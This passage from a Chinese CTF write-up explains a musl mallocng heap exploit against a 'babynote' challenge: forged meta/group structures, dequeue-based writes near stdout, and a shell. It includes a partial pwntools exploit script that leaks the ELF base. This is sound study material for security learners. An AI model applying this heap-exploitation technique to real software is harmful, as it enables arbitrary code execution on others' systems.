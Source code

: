 ### 4.getshell

一般是通过mmap一个大的内存（来达到地址空间对齐）

基本步骤如下：

1. 申请一个0x1200大小的note（mmap）

2. 再申请一个0x1200大小的note（这时候可以保证这个note能写入的地址段中一定有0x1000对齐的

3. 往里面写东西，伪造meta 和 group ，然后meta->pre=stdout-0x18,meta->next=fake_mem_addr ,然后写入，最后往被控制的chunk里写入这个note里写入你伪造的chunk的地址，然后free掉，就能利用dequeue机制在stout-0x10处写入fake_mem_addr（过掉检查）

4. 在构造一个0x1200大小的note（mmap），这时候是为了将这个chunk入队（queue）。

5.  这时候其实我们可以控制 0x1200的note，相当于任意地址写，我们在stdout-0x10处申请了一个chunk，写入shell信息，就能完成getshell 

## exp

    from pwn import *

    io = process('./babynote')	
    #libc = ELF('./libc.so')
    libc = ELF('/usr/local/musl/lib/libc.so')
    #io = process(["./libc.so",'./babynote'])
    #libc = ELF('./libc.so')

    context.log_level='debug'
    def add(name,name_size,note,note_size):
        io.sendlineafter("option: ",str(1))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name)
        io.sendlineafter("note size: ",str(note_size))
        io.sendafter("note content: ",note)

    def find(name,name_size):
        io.sendlineafter("option: ",str(2))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name)

    def delete(name,name_size):
        io.sendlineafter("option: ",str(3))
        io.sendlineafter("name size: ",str(name_size))
        io.sendafter("name: ",name) 

    def forget():
        io.sendlineafter("option: ",str(4))

    ## 0x28 has 10 chunks
    ## leak info
    add(b'vulnerabl',len(b'vulnerabl'),b'vulnerabl',len(b'vulnerabl'))
    forget()
    for i in range(8):
        find(b'2'*0x28,0x28)
    add(b'vulnerabl',len('vulnerabl'),b'0'*0x28,0x28) 
    add(b'control',len('control'),b'1'*0x28,0x28)
    for i in range(5):
        find(b'2'*0x28,0x28)
    delete(b'vulnerabl',len('vulnerabl'))
    add(b'aaaa',len(b'aaaa'),b'c'*0x38,0x38)
    find(b'vulnerabl',len('vulnerabl'))
    io.recvuntil(":")
    leak_elf = io.recv(16)
    elf_base = int(leak_elf[14:16]+leak_elf[12:14]+leak_elf[10:12]+leak_elf[8:10]+leak_elf[6:8]+leak_elf[4:6]+leak_elf[2:4]+leak_elf[0:2],16)-0x4c90